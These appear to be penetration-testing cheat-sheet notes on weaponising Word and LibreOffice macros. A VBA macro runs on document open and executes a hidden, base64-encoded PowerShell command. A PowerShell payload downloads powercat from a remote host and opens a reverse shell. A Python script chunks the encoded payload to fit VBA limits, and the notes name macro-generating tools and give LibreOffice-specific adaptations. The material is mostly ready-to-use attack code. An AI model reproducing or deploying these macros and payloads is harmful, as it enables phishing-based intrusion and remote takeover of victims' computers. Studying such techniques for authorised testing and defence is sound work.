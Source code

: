 ### VBA Macro Code (Example)
```VBA
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
This is what it should resemble after modifying and chunking the PowerShell payload below
### PowerShell Payload
```PowerShell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.2/powercat.ps1');powercat -c 192.168.45.2 -p 443 -e powershell
```
### Chunking the PowerShell Payload
Because VBA has a 255 character limit for literal strings, but not when they are stored in variables
```Python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
### How to LibreOffice Macro
Use the chunking script above OR **preferably even just use either `rodolfomarianocy/Evil-Macro` or `JohnWoodman/VBA-Macro-Reverse-Shell` tools to generate the chunked payload for you**.

**You do not need `AutoOpen` or `Document_Open` functions in your macro (those are for Microsoft Word). LibreOffice assigns macro events directly in the macro manager, as explained below. 

**ALSO, replace `CreateObject("Wscript.Shell").Run Str` with `Shell(Str)` as shown below.**

Your payload should resemble something like:**
```VBA
REM  *****  BASIC  *****

Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgA"
    Str = Str + "D0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0"
    Str = Str + "ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAa"
    Str = Str + "QBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANwA"
    Str = Str + "zACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkA"
    Str = Str + "GMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADs"
    Str = Str + "AWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAAL"
```